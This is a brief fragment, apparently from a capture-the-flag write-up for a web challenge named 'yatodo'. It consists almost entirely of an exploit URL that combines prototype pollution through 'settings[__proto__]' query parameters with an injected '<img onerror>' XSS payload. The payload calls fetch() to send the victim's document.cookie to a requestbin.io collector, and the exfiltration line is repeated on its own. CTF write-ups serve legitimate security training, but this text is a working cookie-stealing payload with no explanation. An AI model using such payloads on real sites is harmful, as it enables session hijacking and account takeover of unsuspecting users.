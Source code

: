 ```
http://yatodo.chal.ctf.gdgalgiers.com/?settings[__proto__]=__proto__&settings[__proto__]=$$inject&settings[__proto__]=foo&settings[__proto__]=<img src=x onerror="fetch('https://requestbin.io/10m73e41?c='%2bdocument.cookie)" />
```

fetch('https://requestbin.io/10m73e41?c='+document.cookie);